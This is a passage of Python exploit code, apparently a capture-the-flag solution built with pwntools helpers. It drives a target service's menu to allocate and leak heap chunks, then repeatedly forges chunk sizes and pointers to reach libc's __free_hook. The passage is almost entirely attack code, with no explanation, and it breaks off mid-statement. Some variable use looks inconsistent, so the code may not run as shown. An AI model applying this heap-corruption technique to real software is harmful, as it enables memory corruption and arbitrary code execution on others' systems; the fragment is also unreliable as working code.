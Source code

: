 ```py
        log.info("Create chunk")
        ram_chunk = conn()
        send_1_RAM_malloc(ram_chunk, 1, 0)
        ram_chunk_id = Exploit.CURRENT_RAM_ID
        Exploit.CURRENT_RAM_ID += 1

        log.info("Check if the created chunk is really controlled")
        leak = send_3_RAM_decrypt(r, ram_id)
        print(leak)

        log.info("Try to go to __free_hook")
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x20, 
            b"\x00"*8 + 
            0x31.to_bytes(8, "little") +
            b"\x00"*8 +
            (libc.symbols["__free_hook"] - 0x624).to_bytes(8, "little")
        )
        send_4_RAM_encrypt(
            r, 
            0, 
            0x30, 
            b"\x00"*0x24 +
            b"\x00"*2 +
            0x200.to_bytes(2, "little") +
            0x200.to_bytes(2, "little") +
            b"\x00"*6
        )
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x20, 
            b"\x00"*8 + 
            0x31.to_bytes(8, "little") +
            b"\x00"*8 +
            (libc.symbols["__free_hook"] - 0x624 + 0x30).to_bytes(8, "little")
        )
        send_4_RAM_encrypt(
            r, 
            0, 
            0x200, 
            b"\x00"*0x1f4 +
            b"\x00"*2 +
            0x200.to_bytes(2, "little") +
            0x200.to_bytes(2, "little") +
            b"\x00"*6
        )
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x20, 
            b"\x00"*8 + 
            0x31.to_bytes(8, "little") +
            b"\x00"*8 +
            (libc.symbols["__free_hook"] - 0x624 + 0x30 + 0x200).to_bytes(8, "little")
        )
        send_4_RAM_encrypt(
            r, 
            0, 
            0x200, 
            b"\x00"*0x1f4 +
```